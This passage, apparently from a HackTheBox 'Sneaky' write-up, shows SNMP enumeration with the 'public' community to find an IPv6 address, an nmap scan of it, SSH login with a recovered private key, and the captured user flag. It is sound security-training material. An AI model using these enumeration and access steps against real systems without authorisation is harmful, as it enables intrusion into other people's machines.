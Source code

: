 There are some ipv6 address that might be of use to us.

```bash
❯ snmpwalk -v2c -c public 10.10.10.20 ipAddressIfIndex.ipv6
IP-MIB::ipAddressIfIndex.ipv6."00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:01" = INTEGER: 1
IP-MIB::ipAddressIfIndex.ipv6."de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:b9:c2:cc" = INTEGER: 2
IP-MIB::ipAddressIfIndex.ipv6."fe:80:00:00:00:00:00:00:02:50:56:ff:fe:b9:c2:cc" = INTEGER: 2
```

The IPv6 address we are interested in is `dead:beef:0000:0000:0250:56ff:feb9:c2cc`.

Lets run `nmap` on the IPv6 address.

```bash
❯ nmap -6 dead:beef:0000:0000:0250:56ff:feb9:c2cc
Nmap scan report for dead:beef::250:56ff:feb9:c2cc
Host is up (0.0039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

The webpage for the IPv6 address is identical to the IPv4 address.

![ipv6_webpage](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Sneaky/ipv6_webpage.png?raw=true)

Lets login into the SSH using the IPv6 address.

```bash
❯ ssh -i id_rsa thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:c2cc
The authenticity of host 'dead:beef::250:56ff:feb9:c2cc (dead:beef::250:56ff:feb9:c2cc)' can't be established.
ED25519 key fingerprint is SHA256:iA5EOWqwn2dDjQFSKh1dy8U3xKxbJikUttX2BZYeX7A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'dead:beef::250:56ff:feb9:c2cc' (ED25519) to the list of known hosts.
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri Jan  3 07:32:39 EET 2025

  System load: 0.0               Memory usage: 5%   Processes:       177
  Usage of /:  40.9% of 3.32GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Sun May 14 20:22:53 2017 from dead:beef:1::1077
thrasivoulos@Sneaky:~$ cat user.txt 
bc8bdb0865440d6fb4a1dcf2f57e41a5
```

